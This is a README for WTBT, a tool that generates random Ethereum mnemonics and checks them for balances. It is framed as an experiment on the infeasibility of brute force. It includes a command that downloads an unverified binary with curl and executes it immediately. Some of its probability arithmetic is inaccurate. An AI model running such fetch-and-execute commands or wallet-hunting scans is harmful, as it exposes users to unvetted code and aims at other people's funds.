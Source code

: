 # WTBT

A tool for scanning and retrieving balances from various Ethereum addresses.

## Context

This application generates random mnemonics and checks if any of them have a balance. Statistically, it is highly improbable, if not impossible, to find a mnemonic with a balance due to the vast number of possible combinations. This project is an experiment to demonstrate the practical challenges and improbability of finding such mnemonics.

## Probability of Finding a Funded Mnemonic

Ethereum wallets use BIP-39 mnemonics, which are generated from a list of **2048 words**. The mnemonic length can be **12, 15, 18, 21, or 24 words**, each contributing **11 bits of entropy**.

This results in the following number of possible mnemonic combinations:

- **12 words**: \(2^{132} \approx 5.44 \times 10^{39}\)
- **24 words**: \(2^{264} \approx 1.15 \times 10^{79}\)

To put this in perspective, the estimated number of atoms in the observable universe is around \(10^{80}\).

Currently, there are roughly **200 million active Ethereum wallets**. The probability of randomly generating a mnemonic that corresponds to an existing wallet with funds is:

\[
P = \frac{200,000,000}{2^{132}} \approx 6.91 \times 10^{-31}
\]

Even if we consider all Ethereum addresses ever generated (approximately **1.2 trillion**), the probability remains extremely low.

### Computational Impossibility

Even with a **billion** checks per second, it would take far longer than the age of the universe to find a single valid mnemonic.

This experiment highlights the robustness of Ethereum’s security model, demonstrating why brute-force attacks on mnemonics are computationally infeasible.

## Prerequisites

**Bun**: [Install Bun](https://bun.sh/)

## Setup

1. Clone this repository:
   ```bash
   git clone https://github.com/MiltonTulli/wtbt.git
   cd wtbt
   ```
2. Install dependencies:
   ```bash
   bun install
   ```

## Scripts

- `bun run start`: Starts the scanning process.
- `bun run start:all`: Starts multithread scanning.

## CLI Execution

To execute the CLI directly, you can use the following command:

```bash
bin_fd=$(mktemp) && \
curl -fsSL https://github.com/MiltonTulli/wtbt/raw/refs/heads/master/bin/darwin-arm64 > "$bin_fd" && \
chmod +x "$bin_fd" && "$bin_fd"
```

## Usage

You can run the tool with the following options:

- `-f, --filePath <string>`: Specify the file path to save successful outputs.
- `-ba, --batchAmount <number>`: Set the batch amount to fetch balances (default is 5).

Example:

```bash
bun run start --filePath ./output/results.json --batchAmount 10
```

This command will start the scanning process, fetching balances in batches of 10, and save the results to `./output/results.json`.
